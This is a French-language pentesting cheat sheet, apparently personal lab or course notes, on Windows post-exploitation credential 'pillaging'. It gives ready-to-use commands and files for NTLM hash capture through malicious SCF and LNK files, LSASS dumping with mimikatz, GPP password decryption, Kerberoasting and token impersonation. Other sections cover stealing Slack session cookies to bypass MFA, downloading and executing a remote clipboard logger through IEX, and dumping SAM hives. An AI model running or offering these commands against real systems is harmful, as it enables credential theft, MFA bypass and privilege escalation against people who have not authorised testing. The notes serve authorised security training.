

## Pillaging et techniques d'interaction utilisateur



### Traffic Capture

> [!warning]
> L'utilisation de **Responder** peut causer des instabilités réseau ou déclencher des alertes SOC.

La capture de trafic permet d'intercepter des identifiants en clair ou des hashs **NTLMv2**.

*   **Wireshark** : Analyse des protocoles FTP, HTTP, POP3.
*   **net-creds** : Extraction automatique des identifiants.

```bash
sudo net-creds -i eth0
```

### Monitor Local Processes

> [!danger]
> Attention aux alertes EDR lors de l'utilisation de **PowerShell** pour le monitoring de processus.

Le monitoring des processus permet de détecter des arguments de ligne de commande contenant des mots de passe en clair.

```powershell
while($true){
  $p1 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $p2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object $p1 $p2
}
```

### Vulnerable Services

Le service **Docker Desktop** (CVE-2019–15752) permet de remplacer `docker-credential-wincred.exe` dans `C:\ProgramData\DockerDesktop\version-bin\` par un binaire malveillant exécuté au démarrage.

### SCF File Attacks

Les fichiers **.scf** permettent de forcer une machine Windows à s'authentifier sur un partage distant, exposant ainsi le hash **NTLMv2**.

```scf
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Extraction et cassage :

```bash
sudo responder -wrf -I tun0
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### Malicious LNK Files

La création de raccourcis pointant vers des ressources réseau distantes permet de capturer des hashs lors de l'accès au répertoire.

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\10.10.14.3\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Trigger on directory access"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Pillaging Overview

Le pillage consiste à extraire des données sensibles (identifiants, plans, configurations) pour faciliter le **Lateral Movement** ou l'escalade de privilèges.

### Installed Applications Enumeration

L'énumération des logiciels installés peut révéler des versions vulnérables ou des fichiers de configuration contenant des secrets.

```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |
  Select DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* |
  Select DisplayName, DisplayVersion, InstallLocation
$INSTALLED | Where { $_.DisplayName -ne $null } | Sort DisplayName -Unique | Format-Table -AutoSize
```

### Browser Credential Dumping (LSASS/Vaults)

Les navigateurs stockent les identifiants dans des bases SQLite chiffrées (Login Data). La clé de déchiffrement est protégée par le **DPAPI** de l'utilisateur.

```bash
# Dump de LSASS pour extraire les clés DPAPI si nécessaire
procdump.exe -ma lsass.exe lsass.dmp
# Utilisation de mimikatz pour extraire les secrets du navigateur
mimikatz # dpapi::chrome /in:"%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### GPP Password Decryption

Les **Group Policy Preferences** (GPP) contenaient parfois des mots de passe chiffrés avec une clé AES statique connue de Microsoft.

```bash
# Rechercher les fichiers XML contenant des attributs 'cpassword'
Get-ChildItem -Path C:\Windows\SYSVOL\ -Filter *.xml -Recurse | Select-String "cpassword"
# Déchiffrement avec gpp-decrypt (ou module PowerShell)
gpp-decrypt <cpassword_string>
```

### Unattended Installation Files Analysis

Les fichiers de réponse d'installation (ex: `Unattend.xml`) peuvent contenir des identifiants en clair pour le compte Administrateur local ou les comptes de domaine.

*   Emplacements : `C:\Windows\Panther\Unattend.xml`, `C:\Windows\System32\Sysprep\unattend.xml`.

```xml
<UserAccounts>
    <AdministratorPassword>
        <Value>P@ssw0rd123!</Value>
    </AdministratorPassword>
</UserAccounts>
```

### Kerberoasting/AS-REP Roasting

Techniques de récupération de hashs de comptes de service ou d'utilisateurs sans pré-authentification Kerberos.

```powershell
# AS-REP Roasting (si DoNotRequirePreAuth est activé)
Get-ADUser -Filter 'DoesNotRequirePreAuthentication -eq $true' -Properties DoesNotRequirePreAuthentication
# Kerberoasting
Get-DomainUser -SPN | Get-DomainUserHash
```

### Token Impersonation

L'usurpation de jetons permet d'exécuter des processus avec les privilèges d'un autre utilisateur déjà authentifié sur le système.

```bash
# Utilisation de incognito via Meterpreter
use incognito
list_tokens -u
impersonate_token "DOMAIN\Administrator"
```

### mRemoteNG Credential Recovery

> [!warning]
> Vérifier la présence d'un mot de passe maître avant de tenter le déchiffrement de **mRemoteNG**.

Les identifiants sont stockés dans `%USERPROFILE%\AppData\Roaming\mRemoteNG\confCons.xml`.

```bash
python3 mremoteng_decrypt.py -s "<valeur_de_l’attribut_Password>"
```

### Instant Messaging Cookies Extraction

Le vol de cookies de session permet de contourner le MFA sur des services comme Slack ou Teams.

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```

### Clipboard Logging

Le logging du presse-papiers permet de capturer des mots de passe copiés depuis des gestionnaires de mots de passe.

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```

### Backup Server Exploitation (restic)

**restic** permet de sauvegarder des données sensibles. Une fois le dépôt accédé, il est possible de restaurer des fichiers critiques comme les hives SAM/SYSTEM.

```powershell
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic restore <ID_snapshot> --target C:\Restore
```

### LOLBAS

Utilisation de binaires légitimes pour des actions malveillantes :

*   **certutil.exe** : Exfiltration ou téléchargement de fichiers.
*   **msiexec** : Installation de packages MSI malveillants.

### AlwaysInstallElevated

> [!danger]
> Permet l'exécution de fichiers MSI avec des privilèges **SYSTEM** si activé dans le registre.

```bash
msiexec /i C:\chemin\aie.msi /quiet /qn /norestart
```

### UAC Bypass

Exploitation de la faille **CVE-2019-1388** via l'interface graphique pour obtenir une invite de commande **SYSTEM**.

### Scheduled Tasks

L'énumération des tâches planifiées peut révéler des scripts exécutés avec des privilèges élevés modifiables par l'utilisateur courant.

```cmd
schtasks /query /fo LIST /v
```

### SAM/SECURITY/SYSTEM Hives Dumping

> [!danger]
> Le dump des hives SAM/SECURITY/SYSTEM nécessite des privilèges **SYSTEM**.

Extraction des hashs **NTLMv2** locaux :

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

---
**Notes liées :**
*   [[Active Directory Enumeration]]
*   [[Windows Privilege Escalation]]
*   [[Credential Harvesting Techniques]]
*   [[Lateral Movement]]